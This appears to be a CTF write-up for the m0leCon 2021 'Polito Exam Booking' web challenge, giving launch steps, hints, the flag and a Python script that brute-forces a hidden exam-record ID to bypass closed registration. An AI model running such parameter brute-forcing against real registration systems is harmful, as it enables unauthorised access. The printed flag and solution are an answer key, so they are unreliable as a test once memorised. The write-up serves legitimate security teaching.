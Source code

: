 # m0leCon beginner CTF 2021 challenge

m0leCon beginner CTF 2021 was a beginner-friendly capture the flag competition organized by 
[Politecnico di Torino](https://www.polito.it/)'s cybersecurity student team 
[pwnthem0le](https://pwnthem0le.polito.it/). Mainly aimed towards Politecnico di Torino's students the competion 
was open to everyone to join and was held online on 3rd December 2021.

## Descritpion

### Polito Exam Booking (medium difficulty)
Your dear friend Pwnlo M0flag studied really hard for his 'Hacktivism' exam. He was so engrossed in studying that he 
forgot to register and now registrations are closed. Can you help your friend register anyway?

### How to launch it
Both the ```Dockerfile``` and the ```docker-compose.yaml``` files are provided to launch the server through 
[Docker](https://www.docker.com/).<br>
Alternatively the server can be started directly through [Python](https://www.python.org/). Through a terrminal, 
first install Flask<br>
```pip3 install Flask```<br>
then go into the ```app``` folder and run the server<br>
```python3 -u main.py```

### Hint
- Who said you can't book the exam anymore? Try asking it!
- If you miss something, guess it! You can try and try again (just be smart)

### Flag
ptm{S3rveR_s1d3_v4liDa7ion_go3s_bRRRRRR}

## Solution
By looking at the source code of the webpage we see that when booking an exam the function ```onClickPrenota()``` 
gets called with parameters unique to the exam. All the needed data for the function can be obtained from the webpage 
but the parameter ```id_verbale```. Thus, we need to bruteforce it. It can be done directly through the debug console, 
but, since JS is not my forte i wrote this little python script to do it:
```python3
import requests # might be not installed, to install run 'pip install requests'
import re

# Asking for the link of the "api", it can be hardcoded
link = input('Link of the api: ')

data = {'id_verbale': 0, 'cod_ins': '01ELEET', 'd_ini_appel': '', 'd_fin_appel': '', 'data_appello': '2021-07-05',
        'frequenza': 2021, 'nome_insegnamento': 'Hacktivism', 'docente': 'ROBOT MR',
        'data_ora_appello': '05-07-2021 17:00', 'desc_tipo': 'Esami scritti a risposta aperta o chiusa tramite PC',
        'note': 'Please be advised that to take the test you need your credential for the PORTALE DELLA DIDATTICA. In '
                'the REMOTE EXAMS part you will find the link to the test. At the begging of the test, '
                'following respondus instructions, you must show a valid photo ID to the webcam in such a way that it '
                'can be read.',
        'mat_docente': '30120', 'aula': ' ', 'posti_liberi': 999}

for _ in range(736):
    data['id_verbale'] = _
    r = requests.post(link, json=data)
    if 'ptm{' in r.text:
        print(re.search("ptm{.+}", r.text).group(0))
        break
```
